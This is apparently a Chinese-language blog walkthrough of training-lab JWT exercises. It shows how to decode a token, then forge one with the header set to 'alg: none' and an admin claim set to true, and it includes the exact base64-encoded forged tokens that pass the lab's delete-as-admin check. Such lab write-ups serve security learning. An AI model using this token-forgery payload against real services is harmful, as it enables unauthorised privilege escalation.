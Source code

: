 

> 
<h3>二、JWT tokens</h3>
<h4>第3题：</h4>
直接使用JWT在线解密工具
用户名为
user



<hr/>
<hr/>
<h4>第5题：</h4>
这个垃圾桶是重置的意思

 <img alt="" height="142" src="https://img-blog.csdnimg.cn/463a52a3a8634084a3deeb0d9261929a.png" width="1200"/>
想尝试2个方法
1、通过切换用户，将其他用户的权限通过JWT提升为admin（失败）
2、执行删除操作，以admin权限进行 （成功）
<hr/>
方法一（失败）
点击切换为角色Tom
并抓包，其中一个包中发现了token



 JWT解密后
"admin": "false",要将其改为true
避免爆破，直接将其改为{ “alg”: “none”}


base64编码：
{
"alg": "none"<br/> }
为
ewoKImFsZyI6ICJub25lIgp9

{<br/> "iat": 1665554118,<br/> "admin": "true",<br/> "user": "Tom"<br/> }
为
ewoiaWF0IjogMTY2NTU1NDExOCwKImFkbWluIjogInRydWUiLAoidXNlciI6ICJUb20iCn0=

(提示：编码时，别带空格，不然最后会这样) 
组合(要去掉=，还要加.)：
ewoKImFsZyI6ICJub25lIgp9.ewoiaWF0IjogMTY2NTU1NDExOCwKImFkbWluIjogInRydWUiLAoidXNlciI6ICJUb20iCn0.

只改JWT，失败

 头部删掉后，但还是失败


<hr/>
方法二（成功）
点击垃圾箱，并抓包，改JWT
ewrCoCAiYWxnIjogIm5vbmUiCn0.ewogICJpYXQiOiAxNjY1NTU0MTE4LAogICJhZG1pbiI6ICJ0cnVlIiwKICAidXNlciI6ICJUb20iCn0.

 然后这题就绿了，完成了
<hr/>
<hr/>
